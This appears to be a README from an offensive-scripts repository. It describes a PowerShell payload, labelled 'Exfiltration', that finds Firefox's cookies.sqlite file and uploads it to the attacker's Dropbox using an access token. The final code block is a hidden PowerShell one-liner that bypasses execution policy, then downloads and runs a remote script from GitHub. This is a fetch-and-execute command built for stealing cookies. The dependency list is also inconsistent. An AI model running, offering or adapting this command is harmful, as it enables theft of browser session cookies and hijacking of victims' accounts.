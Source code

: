 # Export Firefox Cookies Database

This script may come in handy for those who want to quickly save all the cookies of Firefox session by exporting the database via dropbox accesstoken.

**Category**: Exfiltration

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script may come in handy for those who want to quickly save all the cookies of their Firefox session by exporting the database via dropbox accesstoken.

Open a PowerShell, select dynamically the Firefox path adding "cookies.sqlite" at the end, then set your exfiltration settings i.e. Dropbox access token and so on... then export it, then close the powershell.

## Dependencies

* Firefox must be installed
* Edge must be installed
* Chrome must be installed
* Opera must be installed


All
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Exfilaration/ExportCookiesBrowsers/exportCookies.ps1').Content"
```
